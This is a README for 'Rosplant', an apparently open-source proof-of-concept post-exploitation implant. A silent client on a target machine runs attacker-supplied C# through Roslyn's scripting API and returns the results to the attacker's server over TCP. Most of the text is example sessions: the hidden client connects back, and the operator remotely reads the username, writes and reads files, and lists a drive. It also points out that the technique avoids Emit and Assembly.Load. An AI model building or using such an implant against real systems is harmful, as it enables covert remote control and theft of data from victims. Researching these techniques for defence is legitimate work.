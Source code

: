# Rosplant

Proof of concept to leverage Roslyn for post-exploitation (Roslyn + Implant = Rosplant).  It comes in two parts, the server and client.

Raw C# is entered into the server's console by the attacker, which is sent to the client (via TCP for the PoC).  The client uses Roslyn to evaluate the code and sends the results back to the attacker.

Aspects to note:

- Using statements must be included or the full namespaces used.
- Use Shift+Enter for soft newlines.
- Compilation errors are also returned.

## Example Usage
Run the server first.

```
PS C:\Rosplant\RoslynServer> dotnet run
Waiting for client...
```

Run the client app on a target, it produces no output.

```
PS C:\> .\RoslynApp.exe
```

The server will note the connection.

```
PS C:\Rosplant\RoslynServer> dotnet run
Waiting for client... connected!
>
```

Write code.

```
> 1 + 1
2

> var x = 1;
  x++;
  x++;
  x
3

> System.Environment.UserName
Daniel

> using System;
  Environment.UserName
Daniel

> System.DateTime.UtcNow
16/09/2021 12:55:13

> System.Environment.DoesNotExist
(1,20): error CS0117: 'Environment' does not contain a definition for 'DoesNotExist'
```

The app returns the string "Done" if the C# evaluation does not produce a result.  This is mainly because my basic code for reading/writing to the network stream sucks.

```
> System.IO.File.WriteAllText("C:\\Temp\\test.txt", "This is a test");
Done

> var text = System.IO.File.ReadAllText("C:\\Temp\\test.txt");
  text
This is a test
```

More complicated code can also be used.

```
> using System.IO;
  using System.Text;

  var files = Directory.GetFiles("C:\\");
  var sb = new StringBuilder();
  foreach (var file in files)
  {
      var info = new FileInfo(file);
      sb.AppendLine(info.FullName);
  }
  var result = sb.ToString();
  result
C:\DumpStack.log
C:\DumpStack.log.tmp
C:\hiberfil.sys
C:\pagefile.sys
C:\swapfile.sys
```

I find all this interesting since it uses `CSharpScript.RunAsync()` to evalate the code.  There is no Emit or Assembly.Load.

A lot of improvements could be made such as adding common namespaces by default and loading external references or nuget packages.